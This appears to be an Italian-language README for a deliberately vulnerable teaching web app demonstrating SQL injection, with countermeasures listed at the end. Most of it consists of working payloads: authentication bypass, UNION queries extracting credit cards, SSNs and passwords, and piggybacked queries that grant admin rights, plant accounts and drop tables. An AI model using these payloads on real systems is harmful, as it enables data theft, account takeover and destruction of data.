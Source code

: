 # 🔓 SQL Injection Attack Demonstrations

## ⚠️ DISCLAIMER
Questo server è **intenzionalmente vulnerabile** per scopi educativi. **NON UTILIZZARE IN PRODUZIONE!**

## 🎯 Vulnerabilità Implementate

### 1. 🔍 **Tautologia** - Information Disclosure
**Endpoint:** `GET /users?id=X`

**Attacchi di esempio:**
```bash
# Visualizza tutti gli utenti (bypass WHERE)
GET /users?id=1 OR 1=1

# Visualizza informazioni della tabella
GET /users?id=1 UNION SELECT name,sql,1,1,1 FROM sqlite_master WHERE type='table'

# Esfiltrazione dati sensibili
GET /users?id=1 UNION SELECT credit_card,ssn,secret_notes,1,1,1 FROM sensitive_data

# Versione del database
GET /users?id=1 UNION SELECT sqlite_version(),1,1,1,1,1
```

### 2. 🔐 **Commenti di Fine Riga** - Authentication Bypass
**Endpoint:** `POST /login`

**Attacchi di esempio:**
```bash
# Bypass autenticazione (ignora password)
username: admin'--
password: qualsiasi_cosa

# Tautologia nel login
username: admin' OR 1=1--
password: qualsiasi_cosa

# Login come primo utente
username: ' OR '1'='1'--
password: qualsiasi_cosa
```

### 3. 🔄 **Union-based** - Data Exfiltration
**Endpoint:** `GET /search?query=X`

**Attacchi di esempio:**
```bash
# Esfiltrazione carte di credito
GET /search?query=' UNION SELECT credit_card,ssn,secret_notes,1,1 FROM sensitive_data--

# Esfiltrazione credenziali utenti
GET /search?query=' UNION SELECT username,password,email,role,1 FROM users--

# Schema del database
GET /search?query=' UNION SELECT name,sql,1,1,1 FROM sqlite_master WHERE type='table'--
```

### 4. 🐷 **Piggybacked Queries** - Data Modification/Destruction
**Endpoint:** `POST /update-profile`

**Attacchi di esempio:**
```bash
# Escalation privilegi
bio: fake'; UPDATE users SET role='admin' WHERE username='john_doe'; --

# Eliminazione tabella
bio: fake'; DROP TABLE products; --

# Inserimento dati malevoli
bio: fake'; INSERT INTO users (username,password,email,role) VALUES ('hacker','pwd','h@ck.er','admin'); --

# Modifica password admin
bio: fake'; UPDATE users SET password='hacked' WHERE role='admin'; --
```

## 🛡️ Proprietà CIA - Violazioni Dimostrate

### 🔒 **Confidentiality (Riservatezza)**
- **Violazione:** Accesso non autorizzato a dati sensibili
- **Attacco:** Esfiltrazione carte di credito, SSN e note segrete
- **Esempio:**
  ```bash
  GET /search?query=' UNION SELECT credit_card,ssn,secret_notes,1,1 FROM sensitive_data--
  ```

### ✏️ **Integrity (Integrità)**  
- **Violazione:** Modifica non autorizzata dei dati
- **Attacco:** Escalation privilegi, modifica password
- **Esempio:**
  ```bash
  POST /update-profile
  bio: fake'; UPDATE users SET role='admin' WHERE username='john_doe'; --
  ```

### 🔌 **Availability (Disponibilità)**
- **Violazione:** Compromissione dell'accesso ai servizi
- **Attacco:** Eliminazione tabelle critiche
- **Esempio:**
  ```bash
  POST /update-profile  
  bio: fake'; DROP TABLE products; --
  ```

## 🕵️ Database Reconnaissance

### Scoperta Struttura Database
```bash
# Lista tutte le tabelle
GET /users?id=1 UNION SELECT name,1,1,1,1,1 FROM sqlite_master WHERE type='table'--

# Schema completo delle tabelle
GET /users?id=1 UNION SELECT sql,1,1,1,1,1 FROM sqlite_master WHERE type='table'--

# Informazioni versione
GET /users?id=1 UNION SELECT sqlite_version(),1,1,1,1,1--

# Colonne di una tabella specifica
GET /users?id=1 UNION SELECT sql,1,1,1,1,1 FROM sqlite_master WHERE name='sensitive_data'--
```

## 🧪 Test degli Attacchi

### 1. **Avvia il server**
```bash
npm start
```

### 2. **Apri http://localhost:3000**
La homepage contiene form pronti per testare gli attacchi

### 3. **Testa manualmente con curl**
```bash
# Tautologia
curl "http://localhost:3000/users?id=1%20OR%201=1"

# Authentication bypass  
curl -X POST http://localhost:3000/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=admin'--&password=fake"

# Data exfiltration
curl "http://localhost:3000/search?query='%20UNION%20SELECT%20credit_card,ssn,secret_notes,1,1%20FROM%20sensitive_data--"
```

### 4. **Verifica stato database**
```bash
# Visualizza tutti i dati
GET http://localhost:3000/dump

# Reset database dopo attacchi distruttivi
POST http://localhost:3000/reset-db
```

## 🛠️ Struttura Database

### Tabella `users`
- id, username, password, email, role, created_at

### Tabella `products`  
- id, name, price, description, stock

### Tabella `orders`
- id, user_id, product_id, quantity, total_price, order_date

### Tabella `sensitive_data`
- id, user_id, credit_card, ssn, secret_notes

## 📚 Obiettivi Educativi Raggiunti

✅ **Inband SQL Injection implementata**
✅ **Tautologia** - bypass clausole WHERE  
✅ **Commenti di fine riga** - bypass autenticazione
✅ **Piggybacked queries** - esecuzione comandi multipli
✅ **Union-based** - esfiltrazione dati tra tabelle
✅ **Violazione Confidentiality** - accesso dati sensibili
✅ **Violazione Integrity** - modifica dati non autorizzata  
✅ **Violazione Availability** - eliminazione tabelle
✅ **Database Reconnaissance** - scoperta struttura DB
✅ **Database SQLite reale** con dati di test

## ⚠️ Misure di Sicurezza (NON implementate intenzionalmente)

Per proteggere da questi attacchi, in un'applicazione reale dovresti:

1. **Prepared Statements** / Parameterized Queries
2. **Input Validation** e Sanitization  
3. **Least Privilege** per utenti database
4. **WAF** (Web Application Firewall)
5. **Logging** e Monitoring
6. **Escape** caratteri speciali
7. **Stored Procedures** invece di query dinamiche